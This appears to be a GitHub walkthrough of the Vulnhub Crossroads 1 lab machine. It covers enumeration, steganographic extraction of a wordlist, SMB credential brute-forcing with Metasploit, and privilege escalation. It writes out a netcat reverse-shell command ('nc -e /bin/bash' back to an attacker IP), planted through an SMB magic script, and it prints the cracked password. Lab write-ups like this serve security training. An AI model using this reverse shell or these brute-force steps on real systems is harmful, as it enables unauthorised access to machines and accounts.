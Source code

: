 # Walkthrough-Crossroads
Walkthrough vulnhub Crossroads 1  machine

Hi guys, through this write-up we'll be talking about all the different process that lead to capture all the flags of Vulnhub Crossroads1 machine.

The machine can be downloaded on this link https://download.vulnhub.com/crossroads/crossroads_vh.ova.
Concerning the virtualisation engine, I used Virtualbox, of course it's the one that is recommended for this machine.

**Here's is the description given from Vulnhub about the machine:**

* get flags
* difficulty: easy
* about vm: tested and exported from virtualbox. dhcp and nested vtx/amdv enabled. you can contact me by email for troubleshooting or questions.
* This works better with VirtualBox rather than VMware

**Now that all have been said, let's start:**

After starting the machine in virtualbox, we have to look for our target Ip address, so to that we use the command **netdiscover**

![d](https://user-images.githubusercontent.com/63744686/116478438-98007300-a86d-11eb-839f-80d83ad68e55.png)

As you can see on the image, our target Ip address is **192.168.56.107**
but we'll be using as attacker Ip address **192.168.56.108**

Now then, let's poursue by enumerating services and ports that the target machine is running by using **nmap** command

**nmap -A -Pn- 192.168.56.107**

![d1](https://user-images.githubusercontent.com/63744686/116479614-7b653a80-a86f-11eb-94b6-de2fc8c2f305.png)


With the output of nmap command, it's shows that the target machine is running http server and smb server as well.
Knowing that, we'll continue our journey by web enumeration in other to gather more information and see if there isn't some interesting files on the web server.
so to that, we use **dirb** command to check eventuals files that might be stored on the web server

**dirb http://192.168.56.107**

![d2](https://user-images.githubusercontent.com/63744686/116480687-4fe34f80-a871-11eb-9c0d-2877c158a156.png)

So looking to the image, it's possible to see that, there are somes files on the web server. While checking the content of the robot.txt file, it's mentioned inside that
the route /crossroad.png is disabled. Of course, our first impression might be to suppose that file should contain the first flag, but looking at it, it's not

![d3](https://user-images.githubusercontent.com/63744686/116487908-a441fb80-a880-11eb-8502-a1c2812943f1.png)

So then, as I said earlier, I first download the file and try to see if it's possible that something was hiden inside. To that I used a python package called **stegoveritas** to extract everthing that the picture might hide. If you do want to install the package stegoveritas on your python environnement, you just have to do **pip3 install stegoveritas** 
and there you go.
**stegoveritas crossroads.png**

![d4](https://user-images.githubusercontent.com/63744686/116488509-0c451180-a882-11eb-9d4e-1fa13ba80b4f.png)

When the file is done extracting, you'll find in your curent directory a new directory created and named **results**. Inside this one, there's another directory named keepers in which there are somes files, and among those files we find a wordlist, with it what we might expect is that soon it should come in handy while try to do a brute force attack.
bellow the wordlist file captured

![d5](https://user-images.githubusercontent.com/63744686/116489113-9e014e80-a883-11eb-92b6-816f0a52ea79.png)

Now let's save this wordlist in our repository

![d6](https://user-images.githubusercontent.com/63744686/116489011-5da1d080-a883-11eb-9570-ecc135123f74.png)

After that, we are sure there is no more interesting thing on the side, we can head to smb server side. There, we start as usually with the smb server enumeration.
First, we'll check the shared directories on the server their access permission by using **smbmap** command

**smbmap -H 192.168.56.107**

![d7](https://user-images.githubusercontent.com/63744686/116489436-7bbc0080-a884-11eb-9199-1c311ef0a597.png)

As we can see on the image, all the shared directories have **no access** permission a guest user. So we have to look for a user who has somehow an access to one of the shared 
directories. To that, we can use **enum4linux** or nmap smb enumeration script, but in my case I used enum4linux to find another user who has access to the smb server. Below the command that used

**enum4linux 192.168.56.107**

![d8](https://user-images.githubusercontent.com/63744686/116489998-ddc93580-a885-11eb-9bb1-e36702fe5d37.png)

The image beyond shows a fragment of the output of enum4linux command, and we can see on it that there's another user called **albert** on the target machine. Knowing that, let's try to find his credentials and enumerate the access he might have on the shared directories. We can use a banch of tools to brute force smb creds but in my case I used metasploit **auxiliary scanner/smb/smb_login**. 
Using the metasploit auxiliary I just mentionned, we must set our options as shown on the image below

![d9](https://user-images.githubusercontent.com/63744686/116490646-6f857280-a887-11eb-9235-918a7d2b89ad.png)

At the end of the execution we'll find as result

![d10](https://user-images.githubusercontent.com/63744686/116490749-a9567900-a887-11eb-88bb-b3b1ae50d987.png)

Now that we have the user albert creds, we can try to enumerate the kind of access he has on the shared directories with the command below

**smbmap -H 192.168.56.107 -u albert -p bradley1**

![d11](https://user-images.githubusercontent.com/63744686/116490831-ec185100-a887-11eb-8e58-ebbc670bd6b3.png)

The output of the command shows that the user albert has to **smbshare** directory with the permissions **Read and Write**, and had access on his local directory with the permission **Read only**

So then let's have access to his local directory and check what's inside

**smbmount //192.168.56.107/albert smb -o username=albert**

![d12](https://user-images.githubusercontent.com/63744686/116491274-07379080-a889-11eb-9ea4-2ac60181188f.png)

Inside the local directory of albert, is a file called **user.txt** which contain our first flag

![d13](https://user-images.githubusercontent.com/63744686/116491371-39e18900-a889-11eb-9d37-9225856b34c9.png)

While having a look to the smbshare directory, we notice that there is a smb.conf file inside. Looking at it, it's mentionned in the smbshare configuration that a user albert might be able to execute a magic script called **smbscript.sh**

![d14](https://user-images.githubusercontent.com/63744686/116491828-516d4180-a88a-11eb-8871-3e9c235223f7.png)

Knowing that, we can take advantage of it to create a **reverse TCP shell** and have an access to target machine. For that, all we have to do is used **netcat** command and create a reverse shell to the attacker machine, by simply puting in the smbscript.sh this line below

**echo nc -e /bin/bash 192.168.56.108 4444 > smbscript.sh** (we shoud mentionned that the Ip address here is the Ip of the attacker machine)

![d15](https://user-images.githubusercontent.com/63744686/116492301-744c2580-a88b-11eb-9aa5-2d0ad79fb51a.png)

Before sending the payload to target machine, we have to start listening on the port we mentionned in the smbscript.sh, using the command **nc -lvp 4444**.
After that, we are ready to go!!

![d16](https://user-images.githubusercontent.com/63744686/116492547-094f1e80-a88c-11eb-887c-daac03023fb2.png)

On the attacker server we'll have this

![d17](https://user-images.githubusercontent.com/63744686/116492635-4c10f680-a88c-11eb-889a-57f13ade122f.png)

The command that is highlighted on the is used to gain a stable shell terminal on our machine.

By checking the local directory of the user albert, we can see there's a script called **beroot**, when we execute that script, it's ask to us to enter a password for the root. 
Here is where we'll use the wordlist we retrieved form the crossroads image to brute force the script beroot. I write for that a small script to brute the script, which I put on this repository for those who are interested.

To upload the script and the wordlist on the target machine, we just have to use a python module http.Server to create a local http server and then use wget tool to download it on the target machine. Know that you'll have to process a little bit your wordlist before using it in the script or rather use the wordlitst I put on this repository

![sc](https://user-images.githubusercontent.com/63744686/116493430-487e6f00-a88e-11eb-8f9d-e6d2a83ffc1d.png)

Now let's execute the script we just downloaded and crack the beroot script

![sc1](https://user-images.githubusercontent.com/63744686/116494533-87152900-a890-11eb-91e4-b475333eef0f.png)

Everything we have to do now and find the second and last flag of this machine, is to follow the instruction given to at the end of the cracking 

![sc2](https://user-images.githubusercontent.com/63744686/116494634-c2175c80-a890-11eb-90e0-ffe300ca5f8c.png)


Here is the end of this walkthrough, I hope you guys enjoyed it. Thank you for reading!!!

